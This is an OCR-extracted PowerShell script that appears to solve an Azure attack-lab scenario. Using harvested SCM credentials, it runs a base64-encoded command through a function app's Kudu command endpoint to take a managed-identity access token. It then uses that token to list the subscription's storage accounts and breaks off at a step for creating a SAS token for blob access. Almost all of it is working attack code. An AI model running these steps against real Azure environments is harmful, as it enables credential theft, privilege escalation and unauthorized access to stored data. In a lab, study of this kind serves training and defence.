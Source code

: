 Write-Host "[+] UserName : $($userSCM)"
Write-Host "[+] Password : $($passwordSCM)"



#----------------ReconForID5-------------------#

#Get ID5 Client ID
$id5ClientID = (Get-AzUserAssignedIdentity -Name id5 -ResourceGroupName sc5).ClientId

#---------------------------------ExecuteCommandKuduGetID5Token----------------------------------------------#

$base64AuthInfo = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("{0}:{1}" -f $userSCM,$passwordSCM)))
$GeTokenPayload = '$headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER};$ClientId ="0de890fb-8bd4-42f3-9de7-5b236df07468";$ProgressPreference = "SilentlyContinue";$response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://management.azure.com&client_id=$ClientId&api-version=2019-08-01" -Headers $headers;$response.RawContent'
$Encoded64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($GeTokenPayload))
$method = "POST"
$URI = "https://sc5-windows-function-app.scm.azurewebsites.net:443/api/command"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "sc5-windows-function-app.scm.azurewebsites.net")
$userAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
$headers.Add("Authorization", "Basic $($base64AuthInfo)")
$contentType = "application/json"
$body = "{
`"command`":`"powershell -EncodedCommand $($Encoded64)`",
`"dir`":`"C:\\home`"
}
"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -Body $body)
$id5Token = (($response.Content).Split('"')[6]).split("\")



#---------------------------------ListingAllThestorageAccounts----------------------------------------------#
$method = "GET"
$URI = "https://management.azure.com:443/subscriptions/e60ae2a9-4b11-47ee-8fd8-dc708ca53dae/providers/Microsoft.Storage/storageAccounts?api-version=2022-09-01"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "management.azure.com")
$headers.Add("Referer", "https://learn.microsoft.com/")
$headers.Add("Authorization", "Bearer $($id5Token)")
$headers.Add("Origin", "https://learn.microsoft.com")
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -UserAgent $userAgent -Body $URIParams)

#Look For XMGOAT5
$response.RawContent


#----------------CreateSASTokenInordertoGetAccesssToBlob-------------------#
